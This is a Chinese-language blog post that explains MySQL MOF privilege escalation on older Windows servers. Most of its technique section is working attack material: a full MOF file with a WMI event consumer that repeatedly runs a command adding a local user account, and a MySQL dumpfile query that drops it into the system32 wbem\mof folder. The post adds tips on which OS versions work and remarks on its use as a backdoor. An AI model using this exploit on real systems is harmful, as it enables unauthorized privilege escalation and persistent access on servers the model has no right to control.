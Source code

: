 ```yaml
---
layout: post
title: "Mysql mof 提权小结"
subtitle: "Mysql mof 提权小结"
date: 2019-08-26
author: ppbibo
category: 提权
finished: true
---
```


[TOC]

## 0x1 前言

Windows管理规范(WMI)提供了如下三种方法编译WMI存储库的托管对象格式（MOF）文件：

1. 将MOF文件执行为命令行参数及`Mofcomp.exe`文件
2. 使用`IMofCompiler`借口和`$CompileFile`方法
3. 拖放到`%SystemRoot%\System32\Wbem\MOF`文件夹下的MOF文件中

**使用MOF提权的前提是当前root账户可以复制文件到`%SystemRoot%\System32\Wbem\MOF`目录下。**



## 0x2 利用技巧

新建文件 `nullevt.mof`

```bash
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter
 {
 EventNamespace = "Root\\Cimv2";
 Name = "filtP2";
 Query = "Select * From __InstanceModificationEvent "
 "Where TargetInstance Isa \"Win32_LocalTime\" "
 "And TargetInstance.Second = 5";
 QueryLanguage = "WQL";
 };

instance of ActiveScriptEventConsumer as $Consumer
 {
 Name = "consPCSV2";
 ScriptingEngine = "JScript";
 ScriptText =
 "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user demo xxxxx /add\")";
 };

instance of __FilterToConsumerBinding
 {
 Consumer = $Consumer;
 Filter = $EventFilter;
 };
```

我们将 `nullevt.mof` 脚本上传到一个可读可写的目录下，然后执行Mysql 语句，导出到 `%SystemRoot%\System32\Wbem\MOF` 目录下，利用的就是该目录下每分钟会在特定的时间去执行一次的特性，来执行我们的 DOS 命令。

![mof_1](/static/img/mof_1.png)



执行SQL语句 **RT **：

```mysql
select load_file("C:\\phpStudy\\PHPTutorial\\WWW\\nullevt.mof") into dumpfile 'c:\\windows\\system32\\wbem\\mof\\nullevt.mof'
```

![mof2](/static/img/mof_2.png)

导入后，系统会自动运行该文件。

运行成功后查看已经成功添加了 `demo` 用户

![udf_3](/static/img/udf_3.png)



## 0x3 总结

1. 操作系统版本不宜太高，win7 和 2008 测试失败，2003测试成功（因为需要访问到system32中目录）或说mysql启动身份具有权限去访问和写入`C:/windows/system32/mof`目录。

2. **原理：**

   放置在`C:/windows/system32/mof`目录下的`nullevt.mof`文件每个五秒钟会被自动执行并且消失，如果后续没有创建新的该文件，那么每五秒会循环执行之前的nullevt.mof中内容，那么只需要将恶意代码写入该文件中即可。

3. 解决循环创建用户

   `net stop winmgmt`

   删除文件夹下内容 `c:/windows/system32/wbem/repository`

   `net start winmgmt`

   个人感觉可以当作一个后门来使用，不过我在测试的时候调用 net.exe 的时候杀毒软件会拦截。